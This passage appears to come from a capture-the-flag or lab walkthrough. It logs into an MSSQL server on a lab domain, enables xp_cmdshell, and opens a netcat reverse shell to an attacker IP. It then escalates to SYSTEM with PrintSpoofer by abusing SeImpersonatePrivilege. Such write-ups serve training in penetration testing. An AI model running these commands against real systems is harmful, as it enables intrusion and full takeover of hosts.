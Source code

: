 Add DC to `/etc/hosts`:

![image.png](image%2030.png)

```bash
impacket-mssqlclient -k nagoya.nagoya-industries.com
```

![image.png](image%2031.png)

Asa you can see we are Administrator inside of a service.

```sql
enable_xp_cmdshell
xp_cmdshell whoami
```

![image.png](image%2032.png)

- By default, `xp_cmdshell` runs under the **security context of the service account** — often `svc_mssql`. This is **hardcoded behavior** unless reconfigured. So when you run `xp_cmdshell`, **it does not use your Kerberos identity** — it uses **the account that SQL Server is running as**.

![image.png](image%2033.png)

I am gonna try to get a shell as `svc_mssql` and then abuse `SeImpersonatePrivilege`.

```sql
xp_cmdshell "C:\tools\nc64.exe -e cmd.exe 192.168.45.223 4444"
```

![image.png](image%2034.png)

![image.png](image%2035.png)

## Shell as svc_mssql

Let’s use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to get a shell as NT Authority\System.

```powershell
.\PrintSpoofer.exe -i -c cmd
```

![image.png](image%2036.png)

![image.png](image%2037.png)

We got a shell as computer account.

- We're SYSTEM **on the local machine**.
- But when that SYSTEM process accesses the **network**, it **uses the computer's account** — `nagoya$` — to authenticate to other systems in the domain.

This is called **computer account delegation**.
